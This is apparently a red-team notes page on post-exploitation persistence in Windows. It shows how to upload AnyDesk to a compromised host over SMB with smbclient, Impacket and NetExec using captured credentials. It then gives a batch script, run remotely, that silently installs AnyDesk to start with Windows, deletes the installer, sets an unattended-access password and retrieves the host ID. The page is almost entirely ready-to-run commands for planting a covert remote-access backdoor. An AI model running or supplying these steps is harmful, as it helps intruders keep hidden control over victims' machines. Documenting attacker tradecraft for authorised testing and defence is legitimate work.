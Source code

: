 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - third-party-tools
  - staying-off-the-land
  - windows
---
```

# Unix Shell

## 01 - Upload AnyDesk

### 1.1 - Samba Suite Utils

```
smb: \> put anydesk.exe /Users/<username>/AppData/Local/Temp/anydesk.exe
```

### 1.2 - Impacket

```
# use C$

# cd Users/<username>/AppData/Local/Temp

# put anydesk.exe
```

### 1.3 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --put-file anydesk.exe \\Users\\<username>\\AppData\\Local\\Temp\\anydesk.exe
```

## 02 - Install AnyDesk

```
$ cat anydesk.bat
md %LOCALAPPDATA%\AnyDesk
%LOCALAPPDATA%\Temp\anydesk.exe --start-with-win --slient --install %LOCALAPPDATA%\AnyDesk
del %LOCALAPPDATA%\Temp\anydesk.exe
echo <password> | %LOCALAPPDATA%\AnyDesk\AnyDesk.exe --set-password
for /f "delims=" %i in ('%appdata%\AppData\Local\AnyDesk\AnyDesk.exe --get-id') do echo %i

$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -x anydesk.bat
```

---
## References

### Backlinks

- [[AnyDesk]]